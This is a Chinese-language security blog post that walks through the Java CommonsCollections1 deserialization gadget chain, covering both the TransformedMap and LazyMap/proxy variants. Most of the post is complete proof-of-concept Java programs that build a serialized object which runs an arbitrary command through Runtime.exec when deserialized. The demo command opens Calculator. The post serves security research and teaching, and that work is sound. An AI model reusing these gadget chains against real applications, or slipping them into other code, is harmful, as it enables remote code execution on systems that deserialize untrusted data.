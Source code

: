 # CommonsCollections1链详解

     
     
比较难一点的CC链     
&lt;!--more--&gt;  
# CommonsCollections1链详解  
jdk8源码下载  
https://hg.openjdk.org/jdk8u/jdk8u/jdk/rev/af660750b2f4  
**漏洞触发点在**`org.apache.commons.collections.functors.InvokerTransformer`  
其中的`transform()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142003386.png)
很明显的一个反射调用，其中`iMethodName、iParamTypes、iArgs`都是可控的变量，便可以调用任意方法和任意参数  
看一下构造器是如何赋值的  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142005500.png)
构造一个简单的 payload 试试  
`new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;}).transform(Runtime.getRuntime());`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142007538.png)
找一个任意类调用`transforms()`方法的方法，这里选择`org.apache.commons.collections.map.TransformedMap`类的`checkSetValue()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142009339.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142010479.png)
`valueTransformer`变量可控  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142011147.png)
但是因为构造器是`protected`修饰，所以无法直接调用，利用这里的静态方法`decorate()`进行了调用  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142012194.png)
再查看一下哪里调用了`checkSetValue()`方法，只有这一处  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142022694.png)
`setValue()`方法调用了`checkSetValue()`，构造一个`payload`，看看能不能通  
```java  
Runtime r = Runtime.getRuntime();    
InvokerTransformer invokerTransformer = new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;});    
HashMap&lt;Object,Object&gt; map = new HashMap&lt;&gt;();    
map.put(&#34;key&#34;,&#34;value&#34;);    
Map&lt;Object,Object&gt; transformedMap = TransformedMap.decorate(map,null,invokerTransformer);    
    
for(Map.Entry entry:transformedMap.entrySet()){    
    entry.setValue(r);  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142036218.png)
接着找一个`setValue()`方法的调用，在`sun.reflect.annotation.AnnotationInvocationHandler`类中，找到了如下方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142044567.png)
这里调用了`setValue()`方法，并且还在`readObject()`方法中，继续构造`poc`  
```java  
Runtime r = Runtime.getRuntime();    
InvokerTransformer invokerTransformer = new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;});    
HashMap&lt;Object,Object&gt; map = new HashMap&lt;&gt;();    
map.put(&#34;key&#34;,&#34;value&#34;);    
Map&lt;Object,Object&gt; transformedMap = TransformedMap.decorate(map,null,invokerTransformer);    
    
Class c = Class.forName(&#34;sun.reflect.annotation.AnnotationInvocationHandler&#34;);    
Constructor annotationInvocationhandleconstructor = c.getDeclaredConstructor(Class.class,Map.class);    
annotationInvocationhandleconstructor.setAccessible(true);    
Object o = annotationInvocationhandleconstructor.newInstance(Target.class,transformedMap);  
```  
但是这里存在两个问题  
第一个问题是`Runtime`没有实现`Seriablable`接口，无法参与序列化过程  
利用反射来解决，这里再利用一个`ChainedTransformer.transform`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142055839.png)
简单来说就是上一个执行`transform`方法返回的结果作为下一个执行`transform`方法输入  
```java  
Transformer[] transformers = new Transformer[]{    
        new InvokerTransformer(&#34;getMethod&#34;,new Class[]{String.class,Class[].class},new Object[]{&#34;getRuntime&#34;,null}),    
        new InvokerTransformer(&#34;invoke&#34;,new Class[]{Object.class,Object[].class},new Object[]{null,null}),    
        new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;})    
};  
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
```  
还有一个问题，无法控制`setValue()`里面的参数值  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142058315.png) 
这里利用`org.apache.commons.collections.functors.ConstantTransformer`的`transform()`方法，无论传入什么，都会返回固定的值  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142059785.png)
所以完善一下上面的`poc`  
```java  
Transformer[] transformers = new Transformer[]{  
		new ConstantTransformer(Runtime.class),  
        new InvokerTransformer(&#34;getMethod&#34;,new Class[]{String.class,Class[].class},new Object[]{&#34;getRuntime&#34;,null}),    
        new InvokerTransformer(&#34;invoke&#34;,new Class[]{Object.class,Object[].class},new Object[]{null,null}),    
        new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;})    
};  
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
```  
于是完整的`poc`如下  
```java  
package org.example.CommonsCollections;    
    
import org.apache.commons.collections.Transformer;    
import org.apache.commons.collections.functors.ChainedTransformer;    
import org.apache.commons.collections.functors.ConstantTransformer;    
import org.apache.commons.collections.functors.InvokerTransformer;    
import org.apache.commons.collections.map.TransformedMap;    
    
import java.io.*;    
import java.lang.annotation.Target;    
import java.lang.reflect.Constructor;    
import java.util.HashMap;    
import java.util.Map;    
    
public class CommonsCollection1 {    
    public static void main(String[] args) throws Exception{    
    
        Transformer[] transformers = new Transformer[]{    
                new ConstantTransformer(Runtime.class),    
                new InvokerTransformer(&#34;getMethod&#34;,new Class[]{String.class,Class[].class},new Object[]{&#34;getRuntime&#34;,null}),    
                new InvokerTransformer(&#34;invoke&#34;,new Class[]{Object.class,Object[].class},new Object[]{null,null}),    
                new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;})    
        };    
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);    
        chainedTransformer.transform(Runtime.class);    
        InvokerTransformer invokerTransformer =new  InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;});    
        HashMap&lt;Object, Object&gt; map = new HashMap&lt;&gt;();    
        map.put(&#34;value&#34;,&#34;value&#34;);    
        Map&lt;Object,Object&gt; transformedMap = TransformedMap.decorate(map,null,chainedTransformer);   
        Class c = Class.forName(&#34;sun.reflect.annotation.AnnotationInvocationHandler&#34;);    
        Constructor AnnotationInvocationHandlerConstructor = c.getDeclaredConstructor(Class.class,Map.class);    
        AnnotationInvocationHandlerConstructor.setAccessible(true);    
        Object o = AnnotationInvocationHandlerConstructor.newInstance(Target.class,transformedMap);    
        serialize(o);    
        unserialize(&#34;ser.bin&#34;);    
    
    }    
    
    public static void serialize(Object obj) throws Exception{    
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(&#34;ser.bin&#34;));    
        oos.writeObject(obj);    
    }    
    
    public static Object unserialize(String filename) throws Exception{    
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));    
        Object obj = ois.readObject();    
        return obj;    
    
    }    
}  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142111136.png)
整个调用栈如下  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401151320208.png)
**注**  
这里为什么要用`Target`  
`Object o = AnnotationInvocationHandlerConstructor.newInstance(Target.class,transformedMap);`  
因为`Target`中有值是`value`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142103316.png)
这里的`getKey()`获取的就是，上面`map.put()`放入的`key`值  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142108071.png)
`map.put(&#34;value&#34;,&#34;value&#34;);`  
`key`放入`value`，正好能取出`Target`中的值，所以就绕过了`if`条件  
  
## 另一条  
在上面选择任意类执行`transform`方法的时候，选择了`TransformedMap`  
这次选择另一个类`LazyMap`中的`get()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401151446822.png)
再看一下哪里调用了`get()`方法，恰好在`AnnotationInocationHandler`类中的`invoke()`方法中调用了`get()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401151448743.png)
而恰好`memberValues`也是可控的，那如何调用到`invoke()`方法呢？  
这里需要一个新的知识点，动态代理，将`AnnoationInvocationHandler`动态代理，执行任意方法，即可调用到`invoke`方法，但是根据 invoke 中的`if`条件，执行的任意方法必须是无参的，恰好在`AnnotationInvocationHandler`类中的`readObject()`方法中，有这样的方法存在  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/20240115145104.png)
于是根据上面的`poc`修改一下  
```java  
package org.example.CommonsCollections;    
    
import org.apache.commons.collections.Transformer;    
import org.apache.commons.collections.functors.ChainedTransformer;    
import org.apache.commons.collections.functors.ConstantTransformer;    
import org.apache.commons.collections.functors.InvokerTransformer;    
import org.apache.commons.collections.map.LazyMap;    
import org.apache.commons.collections.map.TransformedMap;    
    
import java.io.*;    
import java.lang.annotation.Target;    
import java.lang.reflect.Constructor;    
import java.lang.reflect.InvocationHandler;    
import java.lang.reflect.Proxy;    
import java.util.HashMap;    
import java.util.Map;    
    
public class CommonsCollections1 {    
    public static void main(String[] args) throws Exception{    
    
        Transformer[] transformers = new Transformer[]{    
                new ConstantTransformer(Runtime.class),    
                new InvokerTransformer(&#34;getMethod&#34;,new Class[]{String.class,Class[].class},new Object[]{&#34;getRuntime&#34;,null}),    
                new InvokerTransformer(&#34;invoke&#34;,new Class[]{Object.class,Object[].class},new Object[]{null,null}),    
                new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;})    
        };    
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);    
    
        HashMap&lt;Object, Object&gt; map = new HashMap&lt;&gt;();    
        Map&lt;Object,Object&gt; lazymap = LazyMap.decorate(map,chainedTransformer);    
        Class c = Class.forName(&#34;sun.reflect.annotation.AnnotationInvocationHandler&#34;);    
        Constructor AnnotationInvocationHandlerConstructor = c.getDeclaredConstructor(Class.class,Map.class);    
        AnnotationInvocationHandlerConstructor.setAccessible(true);    
        InvocationHandler h = (InvocationHandler) AnnotationInvocationHandlerConstructor.newInstance(Target.class,lazymap);    
    
        Map proxyMap = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),new Class[]{Map.class},h);    
    
        Object o = AnnotationInvocationHandlerConstructor.newInstance(Target.class,proxyMap);    
    
        serialize(o);    
        unserialize(&#34;ser.bin&#34;);    
    
    }    
    
    public static void serialize(Object obj) throws Exception{    
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(&#34;ser.bin&#34;));    
        oos.writeObject(obj);    
    }    
    
    public static Object unserialize(String filename) throws Exception{    
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));    
        Object obj = ois.readObject();    
        return obj;    
    
    }    
}  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401151459198.png)
  
  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/commonscollections1%E9%93%BE%E8%AF%A6%E8%A7%A3/  


